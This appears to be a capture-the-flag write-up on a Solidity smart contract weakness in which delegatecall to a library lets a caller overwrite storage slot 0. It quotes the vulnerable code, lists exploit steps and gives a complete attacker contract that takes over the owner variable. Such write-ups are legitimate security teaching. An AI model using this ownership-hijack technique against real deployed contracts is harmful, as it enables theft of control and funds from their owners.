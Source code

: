 The interesting bits are : 

```js
  //inside the library contract
  uint storedTime;  

   function setTime(uint _time) public {
    storedTime = _time;
  }
```

```js
 // inside the vulnerable contract
 address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
```

I guess you got an idea what will happens with the delegateCall ? `storedTime` is actually our `timeZone1Library` variable they are both at `slot[0]` of the storage so it will be set instead. 
and the `setSecondTime` does the same thing as the `setFirstTime` in this case.

### Exploit

1. Create an evil contract that implements `setTime(uint)` and has the same storage layout as the vulnerable contract ( by declaring the same variables in the same order 😄)
2. call the `set_X_Time` of the vulnerable contract by passing uint(evilcontractAddress) as paramater
3. call the method again now our evilContract function will be triggered to set owner = ourAccount;

Let's craft the *EvilContract*

```js
contract EvilContract {

  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  
  // These variable are useless because we won't to ensure that the owner is in slot[2] 
  // we don't really care about the slots that comes after
  uint storedTime;
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

   function setTime(uint _time) public {
    owner = 0x84e7a3679A82C2766Ff8382862ab883FF9460307;
   }

   function getParam() view public returns (uint){
        return uint(address(this));
   }
}
```
